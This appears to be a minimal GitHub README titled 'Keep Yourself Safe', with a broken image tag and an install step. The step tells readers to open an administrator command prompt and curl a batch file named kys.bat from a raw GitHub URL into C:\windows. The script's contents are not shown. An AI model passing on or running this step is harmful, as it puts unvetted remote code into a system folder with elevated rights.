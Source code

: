 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

# How to install
>You just need open cmd with admin perms
>And type next command
```
curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat
```
